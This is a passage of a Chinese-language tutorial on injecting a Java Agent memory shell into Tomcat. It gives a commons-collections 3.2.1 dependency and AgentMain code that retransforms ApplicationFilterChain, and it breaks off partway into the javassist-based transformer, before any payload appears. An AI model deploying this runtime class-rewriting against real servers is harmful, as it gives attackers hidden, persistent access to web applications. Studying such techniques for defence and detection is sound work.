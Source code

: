 目录清单如下：

![截图](b910db5574e82dc5e7c0c30543af2e62.png)

然后在`pom.xml`中写入cc的依赖：

```
      <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
```

![截图](be447bbc0aea4e1e43831ba5ce94fb54.png)

然后运行看看效果：

![截图](8a75085106513ef62f603ca45993b38e.png)

**注入过程：**

第一步，我们写入AgentMain.java：

首先注册我们的 DefineTransformer ，然后遍历已加载的 class，如果存在的话那么就调用 retransformClasses 对其进行重定义

```java
//AgentMain.java
import java.lang.instrument.Instrumentation;

public class AgentMain {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    public static void agentmain(String agentArgs, Instrumentation ins) {
        ins.addTransformer(new DefineTransformer(),true);
        Class[] allLoadedClasses = ins.getAllLoadedClasses();

        for (Class clazz : allLoadedClasses) {
            if (clazz.getName().equals(ClassName)){
                try {
                    ins.retransformClasses(new Class[]{clazz});
                }catch (Exception e){
                    e.printStackTrace();
                }
            }
        }
    }
}
```

第二步，修改DefineTransformer.java：

```java
//Transformer.java
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtMethod;

import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.IllegalClassFormatException;
import java.security.ProtectionDomain;

public class DefineTransformer implements ClassFileTransformer  {
    public static final String ClassName = "org.apache.catalina.core.ApplicationFilterChain";

    @Override
    public byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined, ProtectionDomain protectionDomain, byte[] classfileBuffer) throws IllegalClassFormatException {
```